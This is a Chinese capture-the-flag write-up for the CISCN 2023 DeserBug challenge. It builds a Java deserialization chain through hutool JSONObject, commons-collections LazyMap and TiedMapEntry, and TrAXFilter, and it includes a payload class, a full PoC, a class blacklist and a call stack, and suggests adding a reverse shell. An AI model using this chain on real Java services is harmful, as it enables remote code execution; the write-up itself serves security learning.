


+++
title= "CISCN2023 Deserbug"
slug= "ciscn-2023-deserbug"
description= ""
date= "2025-11-14T00:53:01+08:00"
lastmod= "2025-11-14T00:53:01+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

> 1. cn.hutool.json.JSONObject.put->com.app.Myexpect#getAnyexcept
> 2. jdk8u202

题目提示了类，jdk8u202 和 8u66 我感觉是一样的

commons-collections-3.2.2.jar

hutool-all-5.8.18.jar

先准备恶意类

```java
package org.deserbug;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {}
}
```

commons-collections-3.2.2，所以 InvokeTransformer 之类的都不能使用了，和 CC3 一样用 TrAXFilter，题目提示的 JSONObject 类和 fastjson 的并不同，不是任意触发 getter\setter 方法，

```java
    public JSONObject put(String key, Object value) throws JSONException {
        return this.set(key, value);
    }

    public JSONObject set(String key, Object value) throws JSONException {
        return this.set(key, value, (Filter)null, false);
    }

    public JSONObject set(String key, Object value, Filter<MutablePair<String, Object>> filter, boolean checkDuplicate) throws JSONException {
        if (null == key) {
            return this;
        } else {
            if (null != filter) {
                MutablePair<String, Object> pair = new MutablePair(key, value);
                if (!filter.accept(pair)) {
                    return this;
                }

                key = (String)pair.getKey();
                value = pair.getValue();
            }

            boolean ignoreNullValue = this.config.isIgnoreNullValue();
            if (ObjectUtil.isNull(value) && ignoreNullValue) {
                this.remove(key);
            } else {
                if (checkDuplicate && this.containsKey(key)) {
                    throw new JSONException("Duplicate key \"{}\"", new Object[]{key});
                }

                super.put(key, JSONUtil.wrap(InternalJSONUtil.testValidity(value), this.config));
            }

            return this;
        }
    }
```

`super.put(key, JSONUtil.wrap(InternalJSONUtil.testValidity(value), this.config));`这里会和 fastjson 一样做一个转换最后调用 getter 方法，测试下

```java
package org.deserbug;

import cn.hutool.json.JSONObject;
public class test {
    String name;
    public void getName(){
        System.out.println("getter called");
    }
    public void setName(){
        System.out.println("setter called");
    }
    public static void main(String[] args){
        JSONObject jo = new JSONObject();
        jo.put("aa", new test());
    }
}
//getter called
```

看下`Myexpect#getAnyexcept`

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.app;

import java.lang.reflect.Constructor;

public class Myexpect extends Exception {
    private Class[] typeparam;
    private Object[] typearg;
    private Class targetclass;
    public String name;
    public String anyexcept;

    public Class getTargetclass() {
        return this.targetclass;
    }

    public void setTargetclass(Class targetclass) {
        this.targetclass = targetclass;
    }

    public Object[] getTypearg() {
        return this.typearg;
    }

    public void setTypearg(Object[] typearg) {
        this.typearg = typearg;
    }

    public Object getAnyexcept() throws Exception {
        Constructor con = this.targetclass.getConstructor(this.typeparam);
        return con.newInstance(this.typearg);
    }

    public void setAnyexcept(String anyexcept) {
        this.anyexcept = anyexcept;
    }

    public Class[] getTypeparam() {
        return this.typeparam;
    }

    public void setTypeparam(Class[] typeparam) {
        this.typeparam = typeparam;
    }

    public String getName() {
        return this.name;
    }

    public void setName(String name) {
        this.name = name;
    }
}
```

可以调用任意 public 方法，调用 templates 这么初始化

```java
Myexpect expect = new Myexpect();
expect.setTargetclass(TrAXFilter.class);
expect.setTypeparam(new Class[]{Templates.class});
expect.setTypearg(new Object[]{templatesImpl});
```

然后兴高采烈的反序列化发现报错 InstantiateTransformer 禁用，说明有 WAF，黑名单如下

```java
org.apache.commons.collections.functors.CloneTransformer
org.apache.commons.collections.functors.ForClosure
org.apache.commons.collections.functors.InstantiateFactory
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.functors.PrototypeCloneFactory
org.apache.commons.collections.functors.PrototypeSerializationFactory
org.apache.commons.collections.functors.WhileClosure
```

那么就不能使用 chainedTransformer，写出如下 poc 

```java
package org.deserbug;

import cn.hutool.json.JSONObject;
import com.app.Myexpect;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class poc {
    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get(org.deserbug.Evil.class.getName()).toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new ConstantTransformer(1);

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("aa", "bb");

        Map inner = jsonObject;
        Map lazy = LazyMap.decorate(inner, transformer);

        Myexpect expect = new Myexpect();
        expect.setTargetclass(TrAXFilter.class);
        expect.setTypeparam(new Class[]{Templates.class});
        expect.setTypearg(new Object[]{templates});

        TiedMapEntry entry = new TiedMapEntry(lazy, "key");
        Map exp = new HashMap();
        exp.put(entry, "value");
        lazy.remove("key");

        setFieldValue(transformer, "iConstant", expect);

        byte[] ser = serialize(exp);
        unserialize(ser);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        new ObjectOutputStream(baos).writeObject(obj);
        return baos.toByteArray();
    }

    private static void unserialize(byte[] bytes) throws Exception {
        new ObjectInputStream(new ByteArrayInputStream(bytes)).readObject();
    }
}
```



调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.<init>(TrAXFilter.java:58)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
at com.app.Myexpect.getAnyexcept(Myexpect.java:30)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at cn.hutool.core.util.ReflectUtil.invokeRaw(ReflectUtil.java:1077)
at cn.hutool.core.util.ReflectUtil.invoke(ReflectUtil.java:1008)
at cn.hutool.core.bean.PropDesc.getValue(PropDesc.java:155)
at cn.hutool.core.bean.copier.BeanToMapCopier.lambda$copy$0(BeanToMapCopier.java:66)
at cn.hutool.core.bean.copier.BeanToMapCopier$$Lambda$15.22429093.accept(Unknown Source:-1)
at java.util.LinkedHashMap.forEach(LinkedHashMap.java:684)
at cn.hutool.core.bean.copier.BeanToMapCopier.copy(BeanToMapCopier.java:48)
at cn.hutool.core.bean.copier.BeanToMapCopier.copy(BeanToMapCopier.java:16)
at cn.hutool.core.bean.copier.BeanCopier.copy(BeanCopier.java:92)
at cn.hutool.core.bean.BeanUtil.beanToMap(BeanUtil.java:713)
at cn.hutool.json.ObjectMapper.mapFromBean(ObjectMapper.java:264)
at cn.hutool.json.ObjectMapper.map(ObjectMapper.java:114)
at cn.hutool.json.JSONObject.<init>(JSONObject.java:210)
at cn.hutool.json.JSONObject.<init>(JSONObject.java:187)
at cn.hutool.json.JSONUtil.wrap(JSONUtil.java:805)
at cn.hutool.json.JSONObject.set(JSONObject.java:393)
at cn.hutool.json.JSONObject.set(JSONObject.java:352)
at cn.hutool.json.JSONObject.put(JSONObject.java:340)
at cn.hutool.json.JSONObject.put(JSONObject.java:32)
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:159)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:74)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:121)
at java.util.HashMap.hash(HashMap.java:339)
at java.util.HashMap.readObject(HashMap.java:1413)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at org.deserbug.poc.unserialize(poc.java:67)
at org.deserbug.poc.main(poc.java:51)
```

改下恶意类，加个 base64 反弹 shell 就行



> https://godspeedcurry.github.io/posts/ciscn2023-deserbug/
>
> https://www.cnblogs.com/shinnylbz/p/18722612
>
> https://ctf.njupt.edu.cn/archives/898#DeserBug
>

